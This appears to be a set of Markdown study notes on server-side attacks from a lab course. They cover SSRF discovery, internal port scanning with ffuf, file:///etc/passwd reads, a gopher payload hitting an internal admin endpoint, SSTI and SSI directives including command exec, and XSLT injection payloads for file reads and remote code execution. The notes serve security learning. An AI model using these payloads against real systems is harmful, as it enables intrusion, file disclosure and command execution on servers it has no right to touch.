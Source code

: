 # Server-Side Attacks

## SSRF

[OWASP SSRF Page](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)

### Identification

Based on web app at http://10.129.201.127:34978 that has a drop down to check date availbility through a post parameter (`dateserver=http://dateserver.htb/availability.php&date=2024-01-01`):

- Try pointing the post request to itself to see if the response reflects `dateserver=http://127.0.0.1/index.php&date=2024-01-01`
- Use burp to check post parameter for dynamically loaded content.
- Try changing the request to see if error infromation.
- Start a netcat listener and send a request in the post parameter to it i.e: `dateserver=http://10.10.15.145:8000/ssrf/&date=2024-01-01`.

### Exploitation

- Change POST parameter to `dateserver=file:///etc/passwd&date=2024-01-01` to check for LFI.

- internal portscan by accessing ports on localhost:

```bash
seq 1 10000 > ports.txt
ffuf -w ./ports.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

- accessing restricted endpoints:

```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

- Consider we find and endpoint admin.php through fuzzing which returns a POST form:

![admin.php](../images/admin_php.png){width=900}

### Protocols

- `http://127.0.0.1/` or `https://` can be used to access internal or external endpoints
- `file:///etc/passwd` can be used for local file inclusion
- `gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin` can be used to send arbitrary payloads with internal services

## SSTI
### Exploitation
Templating Engines are used to dynamically generate content

### Test String
- `${{<%[%'"}}%\.`

## SSI Injection - Directives
| Directive | Description |
|-----------|-------------|
| `<!--#printenv -->` | Print variables |
| `<!--#config errmsg="Error!" -->` | Change config |
| `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` | Print specific variable |
| `<!--#exec cmd="whoami" -->` | Execute command |
| `<!--#include virtual="index.html" -->` | Include web file |

## XSLT Injection
### Elements
| Element | Description |
|---------|-------------|
| `<xsl:template>` | Indicates an XSL template. Can contain a match attribute that contains a path in the XML-document that the template applies to |
| `<xsl:value-of>` | Extracts the value of the XML node specified in the select attribute |
| `<xsl:for-each>` | Enables looping over all XML nodes specified in the select attribute |
| `<xsl:sort>` | Specifies the node to sort elements in a for loop by in the select argument. A sort order may be specified in the order argument |
| `<xsl:if>` | Used to test for conditions on a node. The condition is specified in the test argument |

### Injection Payloads
#### Information Disclosure
| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="system-property('xsl:version')" />` | |
| `<xsl:value-of select="system-property('xsl:vendor')" />` | |
| `<xsl:value-of select="system-property('xsl:vendor-url')" />` | |
| `<xsl:value-of select="system-property('xsl:product-name')" />` | |
| `<xsl:value-of select="system-property('xsl:product-version')" />` | |

#### LFI
| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />` | |
| `<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />` | |

#### RCE
| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="php:function('system','id')" />` | |